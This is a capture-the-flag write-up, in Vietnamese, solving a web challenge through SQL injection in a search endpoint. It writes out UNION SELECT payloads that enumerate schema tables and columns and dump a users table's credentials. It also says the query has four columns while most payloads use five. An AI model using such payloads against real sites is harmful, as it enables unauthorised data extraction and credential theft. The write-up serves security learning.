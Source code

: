 # VSL Summer CTF

<img src="https://github.com/Thuanle2401/VSL-CTF/blob/main/web/UploadFile1/images/VSL-summer.png?raw=true" width="500" height="300">

---
# Challenge: Watch Store
---
## 1. Thông tin người thực hiện
- Họ và tên: Lê Ngọc Thuận

## 2. Thông tin Challenge:
- Link: http://61.14.233.78:1234
- Tính năng: Tạo tài khoản người dùng và tìm kiếm sản phẩm

## 3. Solution:
- Tại trang chủ: http://61.14.233.78:1234, ta thấy có một sản phẩm là phần 2 của flag **`_SQL_Inj3ct10n_W1th_`**, vậy có thể đây là 1 gợi ý về `SQL injection` và flag được chia thành nhiều phần.

- Ta sẽ lần lượt test `SQL injection` ở các endpoint `/login.php`, `/register.php` và `/search.php`.

- Sau một số lần thử thì mình đã kết luận rằng 2 endpoint `/login.php` và `/register.php` không thể khai thác được.

- Nhưng ở endpoint `/search.php` thì mình đã thử payload `test' OR 1 -- `, kết quả là server vẫn trả về danh sách các sản phẩm, vậy có thể kết luận trang web đã dính SQL injection tại endpoint `/search.php`.

![1](./images/1.png)

- Vậy mọi chuyện bây giờ chỉ đơn giản là xác định số cột rồi trích xuất tất cả dữ liệu trong database của server.

- Mình đã có thử dùng `ORDER BY` để xác định số cột nhưng đã bị chặn, nên mình đã chuyển sang dùng `UNION SELECT` để xác định số cột và số cột là `4`.

- Trích xuất dữ liệu:
	- Payload: `' UNION SELECT NULL, database(), NULL, NULL, NULL -- -` <br>
	**---> Tên Database:** `ctf_db`
    
    - Payload: `' UNION SELECT NULL, table_name, NULL, NULL, NULL FROM information_schema.tables -- -` <br>
    **---> Các bảng đáng chú ý:** `users, secret`
    
    - Payload: `' UNION SELECT NULL, column_name, NULL, NULL, NULL FROM information_schema.columns WHERE table_name='secret' -- -` <br>
	**--> Các cột bảng `secret`:** description, id, image, name, price
    
    - Payload: `' UNION SELECT id, description, image, name, price FROM secret -- -`
    **--> Nội dung bảng `secret` có chứa part 1 của FLAG:** **`VSL{M4st3r1ng_Th3_4rt_0f`**
    
    - Payload: `' UNION SELECT NULL, column_name, NULL, NULL, NULL FROM information_schema.columns WHERE table_name='users' -- -`
    **--> Các cột đáng chú ý của bảng `users`:** `username, password`
    
    - Payload: `' UNION SELECT NULL, username, password, NULL, NULL FROM users -- -` với payload này ta sẽ dump được một username đáng chú ý là `Have A Nice Day Done` với password là 1 mã hex `4279703473735F346C6C5F46316C743372737D` khi decode ta nhận được part 3 của flag: **`Byp4ss_4ll_F1lt3rs}`**
    
- Kết hợp 3 phần ta được FLAG: **`VSL{M4st3r1ng_Th3_4rt_0f_SQL_Inj3ct10n_W1th_Byp4ss_4ll_F1lt3rs}`**
    	









    